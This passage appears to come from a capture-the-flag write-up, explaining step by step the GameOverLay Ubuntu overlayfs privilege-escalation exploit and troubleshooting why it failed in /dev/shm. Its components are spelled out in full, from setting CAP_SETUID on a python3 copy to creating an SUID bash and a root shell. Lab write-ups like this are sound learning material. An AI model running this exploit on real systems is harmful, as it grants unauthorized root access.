 	`unshare -rm sh -c`:
		`unshare`:  Is used to run a command with some namespaces unshared from the parent.
		
		`-rm`: the `-r` flag makes the shell root regardless of the UID, and `-m` creates a new mount namespace.
		
		`sh -c`: Runs the following command in a new shell, in this case `sh`.
	Inside the `sh -c` command
		
		`mkdir l u w m `: Creates 4 directories named `l`, `u`, `w`, `m`.
		
		`cp /u*/b*/p*3 l/`: Copies the Python3 binary to the `l` directory. The `*` act as wildcards, which should extend to `/usr/bin/python3`, likely used to shorten the command.
		
		`setcap cap_setuid+eip l/python3`: Gives the `CAP_SETUID` capability to the `python3` binary located in the `l` directory. The allows any process running the binary to change it's UID (User ID)
		
		`mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m`: Mounts an overlay filesystem.
			`lowerdir=l`: The `l` directory is the lower, read only layer.
			
			`upperdir=u`: The `u` directory is the upper, writable layer
			
			`workdir=w`: The `w` directory is for temp storage by the overlay filesystem
			
			`m`: The `m` directory is used as the mount point for the overlay filesystem
			
			`touch m/*;`: This command creates an empty file for every file in the `m` directory, which in this case will essentially replicate the directory structure of the lowerdir, `l`.
	
	After the initial command `&&`
		`u/python3 -c`: Runs a command with `python3`, which now has the `CAP_SETUID` from the upper, `u` directory
		
		Inside the python command:
			`import os; os.setuid(0)`: Imports the `os` module, and changes the current process UID to 0 (root)
			`os.system`: Execute the following command in a system shell
				
				`cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash`: Copies the bash binary into `/var/tmp` and makes in an SUID binary
				
				`var/tmp/bash -p`: Runs the copied bash binary with the `-p` options, which will preserve the effective UID and GID values, essentially granting root access
				
				`rm -rf l u m w /var/tmp/bash`: Cleans up by removing the created directories and the copied `bash` binary.


Namespaces are a feature of the Linux kernel that partitions kernel resources in a way that one set of processes sees one set of resources, while another set of processes sees a different set of resources. Usually, processes inherit their namespace from their parent process, meaning they share the same "view" of the system. However, you can start a new process with a separate set of namespaces from it's parent. This effectively starts the new process in a different environment than its parent. In this command, we are creating a new environment for the `sh` shell to run in. We are then giving `python3` the `CAP_SETUID` capability, using it create an SUID copy of `bash`, and then starting a new shell with that SUID `bash` binary. The GameOverLay exploit effectively "tricks" the Ubuntu kernel into copying the files we created in our new unshared namespace, back into the rest of the system.
#### Trouble Shooting the Exploit.
Something that really tripped me up with this, is that this exploit doesn't seem to work when run in the `/dev/shm` directory. I'm not entirely sure why. `/dev/shm` is ***sh***ared ***m***emory, it's ram. Any files created in this directory are actually created in ram, and not to disk. `/dev/shm` is my usual working directory on boxes for this reason. So for awhile, I really didn't think this exploit worked for whatever reason, as I was running it in `/dev/shm`. I had successfully executed linpeas and pspy in this directory, so I knew I had execute permissions in `/dev/shm`. My best guess for why the exploit failed here, is that because it is ram, Linux has different rules for what can be done with filesystems. The exploit relies on messing with the overlay file system, and my best guess is that Linux, or Ubuntu, doesn't like that being done in ram, and needs it done to disk. When I ran the exploit in `/tmp`, it worked just fine, no problem.
### Root Shell
After successfully troubleshooting the exploit and getting it to work, I have a root shell!  I can now read the root flag. Very cool.